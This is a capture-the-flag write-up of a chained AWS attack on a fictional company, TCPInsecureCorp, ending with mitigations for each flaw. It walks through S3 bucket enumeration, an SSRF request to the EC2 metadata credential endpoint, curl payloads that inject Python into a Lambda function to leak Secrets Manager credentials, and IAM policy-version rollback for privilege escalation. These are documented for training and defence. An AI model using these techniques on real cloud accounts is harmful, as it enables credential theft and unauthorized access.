

# AWS Cloud Security CTF - TCPInsecureCorp Chained Attack Writeup

## Challenge Overview

**Challenge Name:** TCPInsecureCorp Cloud Breach - Chained Attack  
**Difficulty:** Advanced  
**Flag:** `FLAG{tcpinsecurecorp_cloud_breach_complete_shadow_admin_pwned}`

This challenge demonstrates a realistic 7-stage attack chain targeting AWS cloud infrastructure:
1. S3 bucket enumeration and intelligence gathering
2. Private S3 bucket access with initial credentials
3. SSRF exploitation to access EC2 metadata (IMDSv1)
4. Lambda function enumeration
5. Lambda code injection to extract Secrets Manager credentials
6. Shadow Admin privilege escalation via IAM policy version rollback
7. Access to restricted backup bucket and flag capture

---

## Phase 1: Reconnaissance & S3 Bucket Discovery

### Initial Access

Started with AWS credentials that had limited permissions:
```bash
export AWS_ACCESS_KEY_ID=<ACCESS_KEY_REDACTED>
export AWS_SECRET_ACCESS_KEY=<ACCESS_KEY_REDACTED><ACCESS_KEY_REDACTED>
```

### S3 Bucket Enumeration with CloudHunter

Used CloudHunter to discover S3 buckets for the target organization:

```bash
cloudhunter -s aws -p /home/r1ckt0r/Pentathon-bootcamp/tools/CloudHunter/permutations.txt \
  tcpinsecurecorp -r ../../resolver.txt -v
```

**Discovery:** Found publicly accessible bucket:
- `tcpinsecurecorp-data-public.s3.amazonaws.com` - **OPEN/LIST**

### S3 Bucket Registry Discovery

Accessed the public bucket and found a critical intelligence file: `buckets.txt`

```bash
aws s3 ls s3://tcpinsecurecorp-data-public/ --no-sign-request
aws s3 cp s3://tcpinsecurecorp-data-public/buckets.txt . --no-sign-request
cat buckets.txt
```

**Contents:**
```
TCPInsecureCorp - S3 Bucket Registry
====================================

The following S3 buckets are provisioned for TCPInsecureCorp:

  Public:  tcpinsecurecorp-data-public-236821
  Private: tcpinsecurecorp-data-private-236821
  Backup:  tcpinsecurecorp-data-backup-236821

For access requests contact: devops@tcpinsecurecorp.com
```

**Key Intelligence:**
- Discovered naming convention with suffix `-236821`
- Learned about three buckets: public, private, and backup
- Backup bucket likely contains sensitive data

---

## Phase 2: Private S3 Bucket Access

### Testing Bucket Access with Initial Credentials

Attempted to access the private bucket using the initial credentials:

```bash
aws s3 ls s3://tcpinsecurecorp-data-private-236821/
```

**Success!** The private bucket was accessible with the initial credentials (misconfigured bucket policy).

**Contents:**
```
2026-02-16 15:45:29        268 WebAppIP.txt
2026-02-16 15:44:00        895 api-docs.md
2026-02-16 15:44:00        803 architecture.md
2026-02-16 15:44:00        555 onboarding.md
```

### Data Exfiltration from Private Bucket

Downloaded all files for analysis:
```bash
aws s3 cp s3://tcpinsecurecorp-data-private-236821/ . --recursive
```

### Critical Intelligence Gathered

**1. WebAppIP.txt** - Web application location:
```
TCPInsecureCorp - Web Application URL
=====================================

For Authorized employees the TCPInsecureCorp website is hosted at:

  Web Application: http://<EC2_IP>:5000/

Incase you find access issues requests contact: devops@tcpinsecurecorp.com
```

**2. architecture.md** - Infrastructure details:
```markdown
# TCPInsecureCorp Internal Architecture

## Overview
This document describes our cloud architecture. INTERNAL USE ONLY.

## Web Application
- Flask application running on EC2
- Instance name: tcpinsecurecorp-webapp
- Accessible on port 5000

## Data Processing
- Lambda function: tcpinsecurecorp-data-processor
- Triggered via Function URL
- Processes file conversions and data transformations
- Environment contains configuration for Secrets Manager

## Storage
- Public assets: tcpinsecurecorp-data-public-236821
- Internal docs: tcpinsecurecorp-data-private-236821
- Backups: tcpinsecurecorp-data-backup-236821 (restricted access)

## Security Notes
- All credentials managed via AWS Secrets Manager
- Developer service accounts have minimal permissions
- Regular security audits conducted quarterly
```

**3. api-docs.md** - Lambda function documentation (⭐ Critical):
```markdown
# Data Processor API Documentation

## Endpoint
Lambda Function URL (check AWS console for current URL)

## Usage
The data processor accepts JSON payloads for file processing operations.

### Example you can execute os level commands to check backend
curl -X POST "https://<function-url>/" \
  -H "Content-Type: application/json" \
  -d '{"command": "env"}'

## Notes
- Processing happens in isolated Lambda containers
- Logs available in CloudWatch
- Contact devops@tcpinsecurecorp.com for issues
```

**4. onboarding.md** - IAM policy hints:
```markdown
# New Employee Onboarding

## AWS Access
New developers will receive credentials for the tcpinsecurecorp-developer account.
This service account is used for:
- CI/CD pipelines
- Internal automation scripts
- Development testing

## Important Policies
Your account is attached to the tcpinsecurecorp-developer-policy.
This policy is version-controlled and regularly updated.

Contact DevOps if you need elevated permissions.
```

**Key Findings:**
- Web app URL: `http://<EC2_IP>:5000/`
- Lambda function name: `tcpinsecurecorp-data-processor`
- Lambda accepts `command` parameter (potential RCE!)
- Secrets Manager stores credentials
- Developer account with versioned IAM policy

---

## Phase 3: SSRF & EC2 Metadata Exploitation

### Web Application Discovery

Navigated to the web application at `http://<EC2_IP>:5000/`

The application featured a **"URL Content Fetcher"** tool - an internal development portal for fetching and previewing content from URLs.

### IMDS Exploitation via SSRF

The web application had a critical SSRF vulnerability in the URL fetcher functionality.

**Vulnerable Endpoint:** `http://<EC2_IP>:5000/fetch`

**Exploitation Steps:**

1. **Accessed the URL Content Fetcher interface**
2. **Entered the EC2 metadata endpoint URL:**
   ```
   http://169.254.169.254/latest/meta-data/iam/security-credentials/tcpinsecurecorp-webapp-role
   ```

3. **Clicked "Fetch Content"** - The application made a server-side request to the metadata service

4. **Retrieved IAM credentials in JSON format:**
   ```json
   {
       "Code": "Success",
       "LastUpdated": "2026-02-16T10:13:17Z",
       "Type": "AWS-HMAC",
       "AccessKeyId": "<ACCESS_KEY_REDACTED>",
       "SecretAccessKey": "<ACCESS_KEY_REDACTED><ACCESS_KEY_REDACTED>",
       "Token": "<ACCESS_KEY_REDACTED><ACCESS_KEY_REDACTED>",
       "Expiration": "2026-02-16T16:43:17Z"
   }
   ```

**Why this worked:**
- The application made server-side HTTP requests without validating the target URL
- No IP allowlist or blocklist for internal/metadata endpoints
- IMDSv1 doesn't require authentication tokens (unlike IMDSv2)
- The EC2 instance had an IAM role attached with S3 and Lambda permissions

**Configured the stolen credentials:**
```bash
export AWS_ACCESS_KEY_ID=<ACCESS_KEY_REDACTED>
export AWS_SECRET_ACCESS_KEY=<ACCESS_KEY_REDACTED><ACCESS_KEY_REDACTED>
export AWS_SESSION_TOKEN=<ACCESS_KEY_REDACTED><ACCESS_KEY_REDACTED>
```

**IAM Role:** `arn:aws:sts::<ACCOUNT_ID>:assumed-role/tcpinsecurecorp-webapp-role/<INSTANCE_ID>`

---

## Phase 4: Lambda Function Enumeration

### Lambda Discovery

Using the stolen EC2 credentials, enumerated Lambda functions:

```bash
aws lambda list-functions
```

**Discovered Lambda function:**
```json
{
    "FunctionName": "tcpinsecurecorp-data-processor",
    "FunctionArn": "arn:aws:lambda:us-east-1:<ACCOUNT_ID>:function:tcpinsecurecorp-data-processor",
    "Runtime": "python3.11",
    "Role": "arn:aws:iam::<ACCOUNT_ID>:role/tcpinsecurecorp-lambda-role",
    "Handler": "index.handler",
    "Environment": {
        "Variables": {
            "SECRETS_ARN": "arn:aws:secretsmanager:us-east-1:<ACCOUNT_ID>:secret:tcpinsecurecorp/prod/credentials-<ID>"
        }
    }
}
```

### Lambda Function URL Discovery

```bash
aws lambda get-function-url-config --function-name tcpinsecurecorp-data-processor
```

**Function URL:** `https://<LAMBDA_URL_ID>.lambda-url.us-east-1.on.aws/`

**Configuration:**
- **AuthType:** NONE (publicly accessible!)
- **CORS:** Allow all origins, methods, and headers

---

## Phase 5: Lambda Code Injection Attack

### Exploitation Strategy

The Lambda function executes arbitrary Python code, allowing us to:
1. Access the `SECRETS_ARN` environment variable
2. Use boto3 to call AWS Secrets Manager
3. Extract stored credentials

### Initial Payload Attempts

**Failed attempt (output not returned):**
```bash
curl -X POST "https://<LAMBDA_URL_ID>.lambda-url.us-east-1.on.aws/" \
  -H "Content-Type: application/json" \
  -d '{"code":"import boto3,os;client=boto3.client(\"secretsmanager\");print(client.get_secret_value(SecretId=os.environ[\"SECRETS_ARN\"])[\"SecretString\"])"}'
```

**Response:** `{"status": "success", "data": {"code_output": "Code executed"}}`

The output was not returned directly, so we needed to trigger an error to leak the data.

### Successful Exploitation via Exception

**Payload:**
```bash
curl -X POST "https://<LAMBDA_URL_ID>.lambda-url.us-east-1.on.aws/" \
  -H "Content-Type: application/json" \
  -d "{\"code\":\"import boto3,os;raise Exception(boto3.client('secretsmanager').get_secret_value(SecretId=os.environ['SECRETS_ARN'])['SecretString'])\"}"
```

**Response (leaked via error message):**
```json
{
    "status": "error",
    "message": "{\n    \"username\": \"tcpinsecurecorp-developer\",\n    \"aws_access_key_id\": \"<ACCESS_KEY_REDACTED>\",\n    \"aws_secret_access_key\": \"<ACCESS_KEY_REDACTED><ACCESS_KEY_REDACTED>\",\n    \"note\": \"Service account for internal automation - DO NOT DELETE\"\n}\n"
}
```

**Extracted Credentials:**
- **Username:** `tcpinsecurecorp-developer`
- **Access Key:** `<ACCESS_KEY_REDACTED>`
- **Secret Key:** `<ACCESS_KEY_REDACTED><ACCESS_KEY_REDACTED>`

---

## Phase 6: Shadow Admin Privilege Escalation

### Credential Validation

```bash
export AWS_ACCESS_KEY_ID=<ACCESS_KEY_REDACTED>
export AWS_SECRET_ACCESS_KEY=<ACCESS_KEY_REDACTED><ACCESS_KEY_REDACTED>
unset AWS_SESSION_TOKEN  # Remove temporary credentials

aws sts get-caller-identity
```

**Response:**
```json
{
    "UserId": "<USER_ID>",
    "Account": "<ACCOUNT_ID>",
    "Arn": "arn:aws:iam::<ACCOUNT_ID>:user/tcpinsecurecorp-developer"
}
```

### IAM Permission Enumeration

```bash
# List attached managed policies
aws iam list-attached-user-policies --user-name tcpinsecurecorp-developer
```

**Response:**
```json
{
    "AttachedPolicies": [
        {
            "PolicyName": "tcpinsecurecorp-developer-policy",
            "PolicyArn": "arn:aws:iam::<ACCOUNT_ID>:policy/tcpinsecurecorp-developer-policy"
        }
    ]
}
```

### Shadow Admin Discovery

```bash
# Get policy ARN
POLICY_ARN="arn:aws:iam::<ACCOUNT_ID>:policy/tcpinsecurecorp-developer-policy"

# List all versions of the policy
aws iam list-policy-versions --policy-arn $POLICY_ARN
```

**Response:**
```json
{
    "Versions": [
        {
            "VersionId": "v3",
            "IsDefaultVersion": true,
            "CreateDate": "2024-01-15T10:00:00Z"
        },
        {
            "VersionId": "v2",
            "IsDefaultVersion": false,
            "CreateDate": "2024-01-10T10:00:00Z"
        },
        {
            "VersionId": "v1",
            "IsDefaultVersion": false,
            "CreateDate": "2024-01-01T10:00:00Z"
        }
    ]
}
```

### Examining Policy Versions

**Current policy (v3) - Restricted:**
```bash
aws iam get-policy-version --policy-arn $POLICY_ARN --version-id v3
```

```json
{
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "iam:Get*",
                "iam:List*",
                "iam:SetDefaultPolicyVersion"
            ],
            "Resource": "*"
        }
    ]
}
```

**Old policy (v1) - Overly Permissive:**
```bash
aws iam get-policy-version --policy-arn $POLICY_ARN --version-id v1
```

```json
{
    "Statement": [
        {
            "Effect": "Allow",
            "Action": "s3:*",
            "Resource": [
                "arn:aws:s3:::tcpinsecurecorp-*",
                "arn:aws:s3:::tcpinsecurecorp-*/*"
            ]
        },
        {
            "Effect": "Allow",
            "Action": [
                "iam:Get*",
                "iam:List*",
                "iam:SetDefaultPolicyVersion"
            ],
            "Resource": "*"
        }
    ]
}
```

**Critical Finding:** Version 1 has full S3 access (`s3:*`) to all `tcpinsecurecorp-*` buckets!

### Exploit Shadow Admin - Activate Permissive Policy

```bash
# Switch to the more permissive v1 policy
aws iam set-default-policy-version --policy-arn $POLICY_ARN --version-id v1

# Verify the change took effect
aws iam list-policy-versions --policy-arn $POLICY_ARN
```

**Privilege escalation successful!**

---

## Phase 7: Data Exfiltration

### Access Backup Bucket

With the escalated privileges, we could now access the previously denied backup bucket:

```bash
# List contents of the backup bucket
aws s3 ls s3://tcpinsecurecorp-data-backup-236821/
```

**Contents:**
```
2026-02-16 15:44:02        422 credentials-backup.txt
2026-02-16 15:44:02        653 database-export.sql
2026-02-16 15:44:02        485 flag.txt
```

### Flag Retrieval

```bash
aws s3 cp s3://tcpinsecurecorp-data-backup-236821/flag.txt .
cat flag.txt
```

**Flag:**
```
FLAG{tcpinsecurecorp_cloud_breach_complete_shadow_admin_pwned}

Congratulations! You have successfully completed the attack chain:
1. Exploited public S3 bucket to discover infrastructure
2. Accessed misconfigured private S3 bucket
3. Exploited SSRF to access EC2 metadata (IMDSv1)
4. Used stolen credentials to enumerate Lambda functions
5. Exploited code injection in Lambda to access Secrets Manager
6. Retrieved IAM user credentials from secrets
7. Discovered Shadow Admin vulnerability in policy versions
8. Escalated privileges to access backup bucket

Well done, pentester!
```

---

## Attack Chain Summary



---

## Vulnerabilities Exploited

### 1. **Misconfigured S3 Bucket Policy**
- **Vulnerability:** Private bucket accessible with any authenticated AWS user
- **Impact:** Exposure of internal documentation and infrastructure details
- **Mitigation:**
  - Use explicit bucket policies with principal restrictions
  - Avoid `"Principal": "*"` with `"Condition"` workarounds
  - Regular S3 bucket policy audits

### 2. **SSRF in Web Application**
- **Vulnerability:** URL fetcher accepts internal IP addresses
- **Impact:** Access to EC2 instance metadata service (IMDSv1)
- **Mitigation:**
  - Implement URL allowlist/blocklist
  - Block internal IP ranges (169.254.169.254, 10.0.0.0/8, etc.)
  - Use IMDSv2 with hop limit of 1

### 3. **IMDSv1 Metadata Exposure**
- **Vulnerability:** EC2 instance running IMDSv1 without authentication
- **Impact:** Temporary IAM credentials exposed via SSRF
- **Mitigation:**
  - Enforce IMDSv2 (`HttpTokens=required`)
  - Set hop limit to 1
  - Disable IMDS if not needed

### 4. **Lambda Code Injection**
- **Vulnerability:** Lambda function executes arbitrary Python code from user input
- **Impact:** Remote code execution, access to environment variables and AWS services
- **Mitigation:**
  - Never execute user-controlled code
  - Implement input validation and sanitization
  - Use Lambda function URLs with IAM authentication
  - Restrict CORS policies

### 5. **Secrets in Environment Variables**
- **Vulnerability:** Secrets Manager ARN exposed in Lambda environment
- **Impact:** Attackers can retrieve sensitive credentials
- **Mitigation:**
  - Use IAM roles instead of storing credentials
  - Implement least privilege for Secrets Manager access
  - Rotate secrets regularly
  - Use AWS Systems Manager Parameter Store with encryption

### 6. **Shadow Admin / IAM Policy Version Abuse**
- **Vulnerability:** User can activate old permissive policy versions
- **Impact:** Privilege escalation from limited IAM access to full S3 access
- **Mitigation:**
  - Delete old policy versions
  - Restrict `iam:SetDefaultPolicyVersion` permission
  - Monitor policy changes with CloudTrail
  - Implement SCPs (Service Control Policies)
  - Use AWS Access Analyzer

### 7. **Publicly Accessible Lambda Function URL**
- **Vulnerability:** Lambda function URL with `AuthType: NONE`
- **Impact:** Unauthenticated access to sensitive functionality
- **Mitigation:**
  - Use AWS IAM authentication for Lambda URLs
  - Implement API Gateway with proper authentication
  - Use AWS WAF for additional protection

---

## Tools Used

1. **CloudHunter** - S3 bucket enumeration and discovery
2. **AWS CLI** - AWS service interaction and enumeration
3. **curl** - HTTP requests to web application and Lambda function URL
4. **bash** - Command-line scripting and automation

---

## Key Takeaways

1. **Defense in Depth:** Multiple security failures enabled this attack chain
2. **S3 Bucket Policies:** Misconfigured policies can expose sensitive data
3. **IMDSv2 is Critical:** Always use IMDSv2 to prevent SSRF-based metadata access
4. **Input Validation:** Never trust user input, especially in serverless functions
5. **Least Privilege:** IAM permissions should be as restrictive as possible
6. **Secrets Management:** Use IAM roles over hardcoded credentials
7. **Policy Hygiene:** Delete old IAM policy versions and monitor for changes
8. **Monitoring:** CloudTrail and GuardDuty would have detected this attack chain

---

## Conclusion

This challenge demonstrates a realistic cloud security attack scenario involving multiple AWS services and common misconfigurations. The attack chain highlights the importance of:

- Secure S3 bucket policies
- Proper input validation in web applications
- Using IMDSv2 for EC2 instances
- Secure serverless function design
- IAM policy hygiene and version management
- Defense in depth
- Regular security audits
- Monitoring and logging

**Final Flag:** `FLAG{tcpinsecurecorp_cloud_breach_complete_shadow_admin_pwned}`
